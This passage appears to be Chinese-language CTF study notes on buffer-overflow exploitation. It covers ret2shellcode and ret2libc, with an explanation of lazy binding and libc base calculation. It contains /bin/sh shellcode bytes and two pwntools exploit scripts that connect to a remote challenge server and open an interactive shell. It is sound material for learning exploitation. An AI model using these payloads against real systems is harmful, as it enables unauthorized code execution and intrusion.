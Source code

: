 ```geb-vmmapn 可以確定哪些記憶體區段是可以執行的```
shellcode='\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05'
r=remote('120.114.62.213', 2122)
#r=process('./ret2sc')
payload=b'a'*0x28+p64(0x601080)
s=r.recvuntil(':')
print(s)
r.sendline(shellcode)
s=r.recvuntil(':')
print(s)
r.sendline(payload)
r.interactive()
```
圖：
![](https://hackmd.io/_uploads/SkiPO5STh.png)
## BOF Ret2Lib
### 利用條件
- 必須有辦法找到對方的lib以及某個函數在lib的位址
- NX被關閉
- PIE被關閉
- 沒有Stack Canary
- 採用get讀取char陣列，導致Overflow成立
### 原理
#### Lazy Binding 機制
在程式碼需要執行某個函數時，透過呼叫他的plt去got表中尋找他在libary中的真正位置，如果沒有的話就會去library把該函數抓出來並放入got表以便下次查詢
#### Libc Base
利用libc進行舉例：
因為ASLR的系統設定，每次got value都會加上一個隨機的libc base，導致每次執行的時候got value都不一樣。
如果可以得到某函數的got位址，就可以算出libc並加上任意函數的在libc的位址
libc base=函數的got value-函數在libc中的位址
#### 手法
Overflow到一個函數return的地方，並且注入某個位址，最後讓他return 去libc上面的某些好用函數(像是system，execve)。
必須得到某個函數的got value以及對方的libc，才能反推回去你要的特定函數got value並注入
### 範例
- 題目大意：(有提供執行環境libc)會要你給定一個hex值並查詢他的got value，並讓你再次輸入一個字串
- 解法：利用radare2逆出puts函數的got表位址，輸入該位址後取得puts的got value，進而推出libc base。
- 利用one_gadget加上提供的libc檔案取得```execve("/bin/sh", rsp+0x30, environ)```函數在libc的位址，最後經由got value算法加回去並利用 BOF ret注入即可
```py!=
from pwn import *
r=remote('120.114.62.213', 2123)
for i in range(4):
    s=r.recvuntil('\n')
    print(s)
s=r.recvuntil(':')
print(s)
r.sendline('0x601018')
s=r.recvuntil('\n')[:-1].split(' ')
print(s)
dat=int(s[6], 16)
dat=dat
print(hex(dat))
s=r.recvuntil(':')
payload=b'a'*0x118+p64(dat-0x000000000006f690+0x45216)
r.sendline(payload)
r.interactive()
```
圖：